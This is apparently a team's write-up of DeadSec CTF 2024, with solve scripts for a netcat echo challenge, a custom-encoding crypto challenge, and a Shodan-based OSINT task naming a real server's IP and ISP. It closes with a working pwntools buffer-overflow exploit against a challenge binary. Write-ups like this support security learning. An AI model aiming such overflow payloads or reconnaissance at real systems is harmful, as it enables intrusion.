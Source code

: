 ```yaml
---
title: DeadSec CTF 2024
date: 2024-07-29 00:34:00 +0530
categories: [CTFs]
tags: [Crypto, Misc, OSINT]
image: /images/deadsec.png
---
```


> It is a CTF organized by DeadSec team, that is open to all and team participating from all over the world.<br>
> Here are the writeups of some of the challenges from the CTF

> :star: <span style="color: white;"><b>CREDITS:</b></span> <b>ckc9759, babyshark_1337, ayussshhhh, nop_nop_0x90 </b>
<br>

## MISC
{: style="color: #d9539d;"}

### Mic Check
{: style="color: #faf5ab;"}

![desc](/images/deadsec_miccheck.png)

Given a netcat instance. We needed to echo the exact letter, that was provided everytime.<br>
The catch here was, we needed to do that quickly otherwise it will output "Mic Check fail :(" and everytime the size of the word increased by 1, upto 100.
![miccheck](/images/deadsec_1.png)

Here is the solve script to automate the process.
```python
from pwn import *
conn = remote('34.172.99.29', 31907)

for i in range(101):
	
	try:
		b = str(conn.recvline())
		print(b)
		letter = b.split()[3]
		print(conn.recvuntil(b'> '))
		conn.sendline(str(letter))
	except:
		print(conn.recvall())

```
![flag](/images/deadsec_mic_flag.png)


## CRYPTO
{: style="color: #d9539d;"}

### Flag Killer
{: style="color: #faf5ab;"}

![desc](/images/deadsec_killer.png)

Access the challenge files [here](https://master-platform-bucket.s3.amazonaws.com/challenges/84972df8-306a-4838-a438-bb6e8ae1c8fa/public.zip)<br>
We are given an encrypted text - 
```plaintext
0e98b103240e99c71e320dd330dd430de2629ce326a4a2b6b90cd201030926a090cfc5269f904f740cd1001c290cd10002900cd100ee59269a8269a026a4a2d05a269a82aa850d03a2b6b900883
```
And a flag killer code that is producing the encrypted text
```python
#!/usr/bin/python3

from binascii import hexlify

flag = hexlify(b'DEAD{test}').decode()

index = 0
output = ''

def FLAG_KILLER(value):
    index = 0
    temp = []
    output = 0
    while value > 0:
        temp.append(2 - (value % 4) if value % 2 != 0 else 0)
        value = (value - temp[index])/2
        index += 1
    temp = temp[::-1]
    for index in range(len(temp)):
        output += temp[index] * 3 ** (len(temp) - index - 1)
    return output


while index < len(flag):
    output += '%05x' % int(FLAG_KILLER(int(flag[index:index+3],16)))
    index += 3

print(output)
```
We can bruteforce for the value of flag, as we know the encrypted text. Here is the solve script for it.
```python
from binascii import unhexlify

# Load the encrypted data
with open("./enc.txt", "r") as f:
    enc = f.read()

def FLAG_KILLER(value):
    index = 0
    temp = []
    output = 0
    while value > 0:
        temp.append(2 - (value % 4) if value % 2 != 0 else 0)
        value = (value - temp[index])/2
        index += 1
    temp = temp[::-1]
    for index in range(len(temp)):
        output += temp[index] * 3 ** (len(temp) - index - 1)
    return output
    
def reverse_FLAG_KILLER(enc_val):
    for j in range(0x1000):
        if FLAG_KILLER(j) == enc_val:
            return j
    return None

flag = 0
for i in range(0, len(enc), 5):
    encrypted_chunk = int(enc[i:i+5], 16)
    original_value = reverse_FLAG_KILLER(encrypted_chunk)
    if original_value is not None:
        flag = (flag << 12) + original_value


flag = unhexlify(hex(flag)[2:]+"0")[:-2]+b"}"
print(flag)
```
![flag](/images/deadsec_killer_flag.png)


## OSINT
{: style="color: #d9539d;"}

### Windows Server
{: style="color: #faf5ab;"}

![desc](/images/deadsec_server.png)

Access the challenge file [here](https://drive.proton.me/urls/KSJY67NMH8#aknwBbWzNv32)<br>
We are given an image, we from it, we need to find the IP, ISP and ASN number.
![windows](/images/windowsserver_chall.png)
From the language, we know that the language is Portugese. So, initially I searched for Windows Server 2008 R2 in Shodan with country as Portugal. I found one IP, but on putting the details in the flag format, it didn't work.
My teammate, searched for the username in Shodan, and on putting the details accordingly formed the correct flag.
![server](/images/deadsec_server_search.png)
![flag](/images/deadsec_windows_flag.png)
So, the flag will be - `DEAD{187.17.201.3_abcrede provedor de internet ltda_as28265}`


## PWN
{: style="color: #d9539d;"}

### Super CPP Calculator
{: style="color: #faf5ab;"}

![desc](/images/deadsec_super.png)

Access the challenge file [here](https://master-platform-bucket.s3.amazonaws.com/challenges/c86eba47-9560-4fcf-b8b3-ae6f950c3271/public.zip) <br>
Here is the solve script for it - 
```python
from pwn import *
p = process('./test')  # if you're running a local binary
# p = remote('target_ip', target_port) 

address = 0x401740
payload = b'A' * 1032 + p64(0x000000000040101a)+ p64(address)

# Receive and send the initial values
p.recvuntil(b'> ')
p.sendline(b'1')

p.recvuntil(b'> ')
p.sendline(b'10')

p.recvuntil(b'> ')
p.sendline(b'0.009515311615')

p.recvuntil(b'> ')
p.sendline(b'1337')

# Send the final payload
p.recvuntil(b'> ')
p.send(payload)

p.interactive()
```
